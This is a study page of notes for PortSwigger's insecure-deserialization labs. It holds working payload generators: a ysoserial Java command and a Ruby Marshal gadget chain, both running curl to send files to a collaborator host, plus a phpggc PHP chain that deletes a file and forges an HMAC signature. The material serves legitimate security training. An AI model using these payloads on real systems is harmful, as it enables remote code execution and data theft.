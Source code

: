 # [Insecure deserialization](https://portswigger.net/web-security/deserialization)

## Lab

- apprentice:
  - [1. Modifying serialized objects](./lab/1.%20Modifying%20serialized%20objects.md)
- practitioner:
  - [2. Modifying serialized data types](./lab/2.%20Modifying%20serialized%20data%20types.md)
  - [3. Using application functionality to exploit insecure deserialization](./lab/3.%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization.md)
  - [4. Arbitrary object injection in PHP](./lab/4.%20Arbitrary%20object%20injection%20in%20PHP.md)
  - [5. Exploiting Java deserialization with Apache Commons](./lab/5.%20Exploiting%20Java%20deserialization%20with%20Apache%20Commons.md)
  - [6. Exploiting PHP deserialization with a pre-built gadget chain](./lab/6.%20Exploiting%20PHP%20deserialization%20with%20a%20pre-built%20gadget%20chain.md)
  - [7. Exploiting Ruby deserialization using a documented gadget chain](./lab/7.%20Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain.md)

## Checklist

dirsearch:

```text
/cgi-bin/phpinfo.php
```

xác định phương pháp compress và encode đang sử dụng lên serialized object.

- java:

```shell
java -jar /mnt/d/Downloads/ysoserial-all.jar CommonsCollections7 'curl http://collaborator -d @/home/carlos/secret' | base64 -w 0
```

- php:

```shell
malicious_token=$(phpggc Symfony/RCE4 system 'rm /home/carlos/morale.txt' | base64 -w 0)
secret_key="pyvlelzjky8ysw99sjhmb0nlnijyer8x"
output=$(echo -n $malicious_token|openssl sha1 -hmac $secret_key) # SHA1(stdin)= 205c271ee93e2237c69847160252d89e4f9508d6 
signature=$(echo -n $output|cut -d" " -f2)

echo "{\"token\":\"$malicious_token\",\"sig_hmac_sha1\":\"$signature\"}"
```

- ruby: edit ruby code below and execute it to get malicious serialized object

## ysoserial

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

install

- download: [ysoserial-all.jar](https://github.com/frohoff/ysoserial)

- install java version < 12:

```shell
$ sudo apt install openjdk-11-jre-headless
$ sudo update-alternatives --config java
There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
```

example:

```shell
java -jar /mnt/d/Downloads/ysoserial-all.jar CommonsCollections7 'curl http://collaborator -d @/home/carlos/secret' | base64 -w 0
```

## java deserialization scanner burpsuite + ysoserial

install and configure:

![config.png](./img/extension-config.png)

bug:

`Newlines in headers` problem: when using this extension i get an error, it only adds `\n` to the end of the line, not `\r\n`.

![bug.png](./img/extension-bug.png)

My temporary fix: when `set insertion point` does not set to the end of the line but leaves a few characters, then use the `delete` key to delete each character from left to right. This will preserve the existing `\r\n` character of burpsuite.

![fix-1.png](./img/fix-1.png)

![fixed.png](./img/fixed.png)

## phpggc

install: `sudo apt-get install phpggc`

```shell
malicious_token=$(phpggc Symfony/RCE4 system 'rm /home/carlos/morale.txt' | base64 -w 0)
secret_key="pyvlelzjky8ysw99sjhmb0nlnijyer8x"
output=$(echo -n $malicious_token|openssl sha1 -hmac $secret_key) # SHA1(stdin)= 205c271ee93e2237c69847160252d89e4f9508d6 
signature=$(echo -n $output|cut -d" " -f2)

echo "{\"token\":\"$malicious_token\",\"sig_hmac_sha1\":\"$signature\"}"
```

## ruby

```ruby
# Autoload the required classes

#edited
require 'base64'

Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
#edited
rs.instance_variable_set('@git_set', "curl http://collaborator -d @/home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
#edited
puts Base64.strict_encode64(payload)
```

## References

- php:
  - <https://en.wikipedia.org/wiki/PHP_serialization_format>
